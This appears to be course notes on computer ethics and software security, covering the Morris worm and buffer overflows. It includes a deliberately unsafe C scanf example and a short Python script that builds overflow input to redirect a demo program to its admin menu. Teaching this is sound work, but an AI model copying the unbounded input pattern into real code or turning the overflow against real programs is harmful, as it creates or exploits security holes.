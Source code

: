 - Question: Is that still unethical?
    
- Goal: Evaluate ethics of non-malicious but unauthorized exploration.
    

#### 6. **Limitations of Analogies**

- Argument by analogy fails if compared cases are too dissimilar.
    

#### 7. **Software Vulnerabilities & Exploits**

- Vulnerability = Weakness in code
    
- Exploit = Using that weakness to breach security
    

##### Morris Worm Exploits:

1. Password guessing
    
2. Remote shell access
    
3. Buffer overflow
    
4. sendmail debug bypass
    

#### 8. **Buffer Overflow Explained**

- Overflows stack buffer
    
- Overwrites return address to redirect execution
    
- Example code:
    
    ```c
    char username[16];
    char password[16];
    scanf("%s", username);
    scanf("%s", password);
    ```
    
- Modern protections:
    
    - Stack guard
        
    - ASLR
        
    - Safer languages
        

#### 9. **Exploit Demo Overview**

- Disable protection: compile with `-fno-stack-protector`
    
- Use crafted input to overwrite return address → jump to `adminMenu()`
    
- Craft input with Python to create correct memory layout
    

```python
import sys
sys.stdout.buffer.write(b"bbbb")
mystring = "\n"+ "a"*40
sys.stdout.buffer.write(bytes(mystring, "utf8"))
sys.stdout.buffer.write(b"\x14\x1c\x40\x00\x00\x00\x00\x00")
```
